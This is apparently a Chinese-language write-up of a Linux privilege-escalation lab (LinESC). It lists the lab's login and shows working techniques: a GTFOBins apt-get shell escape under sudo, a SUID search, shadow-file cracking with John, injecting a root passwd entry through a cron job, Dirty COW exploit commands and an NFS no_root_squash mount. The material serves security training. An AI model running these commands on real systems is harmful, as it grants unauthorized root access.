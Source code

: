 # 从LinESC学习Linux特权提升

## 环境

提供了一组用户名和密码

用户：muhammad 密码：nasef

## sudoer

通过查看/etc/sudoers或者sudo -l

可以看到我们允许以root身份无密码执行以下三条指令

![image-20221218214248621](./index/image-20221218214248621.png)

关于sudoers配置详解可以看https://blog.csdn.net/weixin_60707895/article/details/119415708



## apt-get权限滥用特权提升

通过https://gtfobins.github.io/网站可以查到当有sudo时，我们可以执行`sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`获取root权限

![image-20221218214834635](./index/image-20221218214834635.png)



## 二进制程序权限滥用

在刚刚我们看到sudoers当中有个sudo命令

```
(root) NOPASSWD: /home/muhammad/vuln/2/sudo
```

同时可以看到这里有sudo的源码就是执行sh

![image-20221218215544917](./index/image-20221218215544917.png)

因此执行`sudo ./sudo`即可

![image-20221218215852140](./index/image-20221218215852140.png)

## ssh私钥泄漏提权root

来到vuln的3目录看见一个key，猜测是root的

记得要给id_rsa，400或者600权限

![image-20221218223803805](./index/image-20221218223803805.png)

## /etc/shadow密码可爆破



![image-20221218224418799](./index/image-20221218224418799.png)

配合John成功爆破出密码

![image-20221218224745087](./index/image-20221218224745087.png)

## suid提权

查找正在系统上运行的所有SUID可执行文件

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20221218224850797](./index/image-20221218224850797.png)

从上面结果可以看到suid这个可执行文件存在可利用问题

![image-20221218224945347](./index/image-20221218224945347.png)

代表用户可以以root权限执行命令，看euid知道一切

![image-20221218225030982](./index/image-20221218225030982.png)

## crontab计划任务

在`/etc/crontab`发现，每分钟都以root身份在运行一个叫script.sh的脚本

![image-20221219151728101](./index/image-20221219151728101.png)

发现每分钟都向root下复制密码过去

![image-20221219152200255](./index/image-20221219152200255.png)

生成一个带盐密码

```perl
perl -le 'print crypt("test","addedsalt")''
```

写入密码

```
test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash
```

![image-20221219152918466](./index/image-20221219152918466.png)

## 历史记录泄漏

`history`命令里面保存了历史执行的命令，如果没有清楚敏感信息可能导致root密码泄漏

![image-20221219153453165](./index/image-20221219153453165.png)

## 内核溢出漏洞提权

信息收集

```bash
uname -a	#查看系统版本内核信息

#centos
hostnamectl	#查看系统版本内核详细信息，推荐这个命令

#ubuntu
lsb_release -a
```

发现在脏牛的范围中

![image-20221219154415227](./index/image-20221219154415227.png)

脏牛提权

```bash
gcc -pthread dirty.c -o dirty -lcrypt
./dirty my-new-password
```

![image-20221219154020603](./index/image-20221219154020603.png)



## NFS特权提升

在`/etc/exports`文件当中可以看到home下的muhammad是共享的，可以远程挂载，并且no_root_squash 选项开启，说明为远程用户授予root用户对所连接系统的访问权限

![image-20221219154705153](./index/image-20221219154705153.png)

将目标靶机nfs目录挂载到mnt目录中

```
mount -t nfs 172.20.10.7:/home/muhammad /tmp/tmp
```

挂在好以后传一个bash上去直接运行就能获取root权限
